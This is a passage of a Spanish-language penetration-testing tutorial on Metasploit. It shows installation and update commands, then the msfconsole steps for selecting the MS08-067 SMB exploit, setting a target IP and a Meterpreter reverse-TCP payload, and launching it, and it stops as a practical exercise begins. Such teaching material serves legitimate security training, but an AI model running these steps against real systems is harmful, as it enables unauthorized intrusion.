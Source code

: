 1. **Instalación de Metasploit en Kali Linux (en caso de que no esté disponible)**:
   ```bash
   sudo apt install metasploit-framework
   ```

2. **Iniciar la consola de Metasploit**:
   Para iniciar Metasploit, simplemente abre la terminal y ejecuta:
   ```bash
   sudo msfconsole
   ```

3. **Actualización de Metasploit**:
   Metasploit se actualiza constantemente con nuevos exploits y módulos. Puedes actualizar Metasploit utilizando el siguiente comando:
   ```bash
   sudo msfupdate
   ```

#### **4.4. Uso de la interfaz de Metasploit**
Una vez que hayas iniciado `msfconsole`, la interfaz principal de Metasploit te recibirá con un mensaje de bienvenida. Desde aquí, puedes comenzar a explorar y usar el framework. A continuación, te explico algunos de los comandos básicos que utilizarás en Metasploit.

##### **Comandos básicos de Metasploit**
- **Buscar exploits**: Para buscar exploits relacionados con un software o vulnerabilidad específica, utiliza el comando `search`. Por ejemplo, para buscar exploits relacionados con Windows XP, podrías ejecutar:
  ```bash
  search windows xp
  ```

- **Seleccionar un exploit**: Una vez que hayas encontrado un exploit adecuado, puedes seleccionarlo con el comando `use`. Por ejemplo:
  ```bash
  use exploit/windows/smb/ms08_067_netapi
  ```

- **Configurar el objetivo (target)**: Después de seleccionar un exploit, necesitas configurar el objetivo utilizando el comando `set`. Por ejemplo, para establecer la dirección IP del objetivo:
  ```bash
  set RHOSTS 192.168.1.100
  ```

- **Configurar el payload**: El siguiente paso es seleccionar un payload adecuado para el exploit que estás utilizando. Puedes buscar payloads compatibles con el comando `show payloads`. Luego, selecciona el payload que deseas utilizar con:
  ```bash
  set payload windows/meterpreter/reverse_tcp
  ```

- **Ejecutar el exploit**: Una vez que hayas configurado todo, puedes lanzar el exploit con el comando:
  ```bash
  exploit
  ```

#### **4.5. Ejemplo práctico de explotación**
Para que puedas aplicar estos conceptos, vamos a realizar un ejercicio práctico utilizando uno de los exploits más comunes en Metasploit: el exploit **MS08-067**, que afecta a sistemas Windows XP vulnerables.
